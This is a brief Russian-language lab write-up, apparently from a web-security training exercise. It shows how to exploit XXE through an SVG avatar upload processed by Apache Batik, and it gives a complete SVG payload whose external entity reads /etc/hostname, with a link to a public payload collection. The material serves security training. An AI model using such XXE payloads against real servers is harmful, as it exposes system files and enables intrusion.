 Эта лаборатория позволяет пользователям прикреплять аватары к комментариям и использует библиотеку Apache Batik для обработки файлов изображений аватара.

Чтобы решить лабораторию, загрузите изображение, которое отображает содержимое `/etc/hostname` Файл после обработки. Затем используйте кнопку «Отправить решение», чтобы отправить значение имени хоста сервера.

## Дано

функционал прикреплять аватары к комментариям
библиотеку Apache Batik

## Задача

содержимое `/etc/hostname`

# Решение

- загрузка изображения svg формат

[репозиторий на гите с payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

